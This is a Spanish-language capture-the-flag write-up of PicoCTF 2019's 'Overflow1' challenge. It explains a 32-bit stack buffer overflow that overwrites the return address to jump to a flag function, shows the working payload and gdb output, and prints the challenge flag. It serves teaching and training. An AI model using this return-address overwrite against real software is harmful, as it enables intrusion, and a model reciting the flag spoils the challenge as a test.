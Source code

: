 ```yaml
---
layout      : post
title       : "PicoCTF2019 - Overflow1"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/CTF/picoctf/2019/pwn/overflow1.png
category    : [ ctf ]
tags        : [ buffer-overflow ]
---
```

Overflow pa toda la familia, nos moveremos a la función que contiene la flag.

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln)? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

### Spanish writeup

El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos:

```bash
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```

Veamos que hace el programa:

```bash
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```

Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado. Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/lanzt/blog/blob/main/assets/files/CTF/picoctf/2019/pwn/overflow1/vuln.c).

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```

Algunos detalles de assembly antes de seguir:

| Registro | Arquitectura | Descripción |
| :------: | :----------: | :---------- |
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |

Siguiendo con el fuente, nos encontramos con un **buffer de 64**, haciendo la prueba de fuego:

```bash
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```

Vemos que no pasa nada, ya que los siguientes `4 bits` guardaran la data que tenga el registro `ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `eip`).

* Lo explica [Dhaval Kapil en su brutal articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).

Sumaremos los **4 bytes del `eip`** y los **4 bytes del `ebp`**, se los agregamos a los **64 del buffer**:

```bash
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```

Obtenemos el overflow, tamos bien.

Saquemos la direccion en memoria de la función `flag`. Lo podemos hacer con `gdb`, `objdump`, `ida`.. Usa el de preferencia.

```bash
$ gdb ./vuln
info functions
...
0x080485e6  flag
...
```

Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian).

Esto decidirá como va a leer nuestro porcesador el programa. Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

* Ejemplo: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`.

```bash
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```

**¿Por que habrá salido dos veces la instrucción?**

```bash
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```

Continuamos...

```bash
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```

Aún no hemos llegado a la dirección de la función `flag`

```bash
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```

Si intentamos `"A"*73` vemos esto:

```bash
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```

**Hemos cambiado el registro que direcciona!!**

Why?

> Sencillamente son los **4 bytes** que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.

```bash
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

```bash
Woah, were jumping to 0x80485e6 !
```

Y ahí lo tenemos, estamos en la dirección de la función `flag`.

Si lo corremos en el servidor remoto de picoCTF:

```bash
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```

<h3>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}</h3>

Tenemos la flag (: Y hemos corrompido el flujo del programa.